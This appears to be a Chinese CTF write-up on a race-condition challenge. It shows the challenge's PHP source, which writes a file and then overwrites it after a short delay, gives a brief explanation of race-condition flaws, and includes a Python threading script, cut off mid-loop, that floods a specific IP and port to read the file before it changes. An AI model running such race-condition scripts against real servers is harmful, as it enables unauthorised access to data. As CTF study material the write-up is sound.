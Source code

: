 查看源码:

```php
  <!DOCTYPE html>  
  <html lang="en">  
  <head>  
      <meta charset="UTF-8">  
      <title>Ayrain</title>  
     <link rel="stylesheet" type="text/css" href="123.css"/>  
  </head>  
  <body>  
     <div id="login">  
         <h4>性感潇文清在线算卦</h4>  
         <form method="get">  
             <input type="text" required="required" placeholder="your name" name="u"></input>  
             <input type="password" required="required" placeholder="your birthday" name="p"></input>  
             <button class="but" type="submit">算一卦！</button>  
         </form>  
     </div>  
 </body>  
 </html> 
<!--$savepath = "uploads/" . sha1($_SERVER['REMOTE_ADDR']) . "/";
    if (!is_dir($savepath)) {
        $oldmask = umask(0);
        mkdir($savepath);
        umask($oldmask);
    }
    if ((@$_GET['u']) && (@$_GET['p'])) {
        $content = '***************';
        file_put_contents("$savepath" . sha1($_GET['u']), $content);
        $msg = 'Ding!你的算卦结果就在这儿啦！ ' . $savepath . htmlspecialchars(sha1($_GET['u'])) . "";
        echo $msg;
        usleep(100000);
        @$content = "you are too slow";
        file_put_contents("$savepath" . sha1($_GET['u']), $content);
    }

试试条件竞争吧？
--!>

```

先学一下条件漏洞先：

条件竞争漏洞是一种服务器端的漏洞，由于服务器端在处理不同用户的请求时是并发进行的，因此，如果并发处理不当或相关操作逻辑顺序设计的不合理时，将会导致此类问题的发生。

```python
# -*- coding: utf-8 -*-

import requests
import hashlib
import threading

url = "http://148.70.59.198:42534/?u=1&p=1"

u = "http://148.70.59.198:42534/uploads/4380dd7bb88ea8bc28acb3f48a4876b857062618/" + hashlib.sha1(b'1').hexdigest()

def getflag():
    while True:
        for j in range(50):
            requests.get(url)
        for j in range(50):
            res = requests.get(u)
            if "slow" not in res.text:
```